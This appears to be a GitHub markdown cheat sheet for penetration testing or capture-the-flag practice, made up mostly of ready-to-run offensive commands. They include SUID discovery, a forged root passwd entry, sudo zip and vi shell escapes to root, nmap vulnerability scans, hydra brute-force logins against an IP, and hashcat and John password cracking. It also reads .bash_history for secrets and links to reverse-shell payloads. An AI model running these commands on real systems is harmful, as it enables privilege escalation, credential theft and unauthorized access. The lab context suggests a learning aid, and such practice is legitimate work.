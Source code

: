 ## Finding SUID Binaries
```
find / -perm -u=s -type f 2>/dev/null
```
## Create Salt Passwd
```
openssl passwd -1 -salt [salt] [password]

salt:new passwd:123

new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## scp
```
remote to local
 scp username@remote.example.com:/remote/directory/a.txt /local/directory
 
 scp /local/test.txt user@remoteHost:/home/user/tmp/
```
local to remote
## zip escalate
```
sudo zip filename.zip filename.txt -T --unzip-command="sh -c /bin/bash"
```


## sudo enum
```
sudo -l
```

## vi escalation
```
:!sh
```

## namp
```
allport scan
nmap -vv -sV -p- --script vuln TARGETIP

smb-enum
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>

```

## dirb
```
dirb TARGETURL WORDLIST 
ex :dirb http://hogehoge /usr/share/wordlist/dirbuster/xxxxx.txt
```
## zips
```
tar.gz
-zip
tar -zcvf xxxx.tar.gz directory
-unzip
tar -zxvf xxxx.tar.gz

gz
-unzip
gunzip target

```

## hashcat
```

hashcat -m 0 hases.txt /usr/share/wordlists/rockyou.txt --force

```

## hashidentifier
```
hash-identifier
```

## John
- hash
```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
```


## hydra bruteforce
```
hydra -l bob -P WORDLIST -t 1 -f HOSTNAME http-get /DIR/
hydra -l bob -P /usr/share/wordlists/rockyou.txt -t 1 -f 10.10.2.215 http-get /protected/
```
## nikto
```
nikto -h host:port

```

## TIPS
```
cat .bash_history
```

## useful links
GTFOBins  : unix binaries list
- https://gtfobins.github.io/#


Metasploit
- reverse_tcp payload
  - https://netsec.ws/?p=331

- meterpreter basis
  - https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

hash
- hash identifier
  - https://www.tunnelsup.com/hash-analyzer/
 - hash resolver
  - https://crackstation.net/

